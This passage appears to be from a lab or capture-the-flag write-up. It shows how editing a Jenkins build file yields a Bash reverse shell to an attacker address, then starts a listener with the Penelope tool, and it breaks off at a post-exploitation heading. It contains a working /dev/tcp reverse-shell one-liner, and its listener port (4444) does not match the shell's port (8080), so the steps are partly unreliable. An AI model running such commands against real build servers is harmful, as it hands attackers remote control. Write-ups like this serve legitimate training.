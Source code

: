 ## Reverse Shell

Since we own the repository and can make changes to the Jenkins file, we can modify the command being executed to initiate a reverse shell connection back to us via BASH:

```bash
bash -c 'bash -i >& /dev/tcp/10.8.4.237/8080 0>&1'
```


![](Build-Modified.png)

Before saving the changes and executing, a listener must be started. I like using the Penelope shell manager found here which can be run via:

```bash
python penelope.py --port 4444 -i tun0
```

After making the changes and listening for a minute, a reverse shell comes through:


![](Build-RevShell.png)

## Post-Exploitation Enumeration
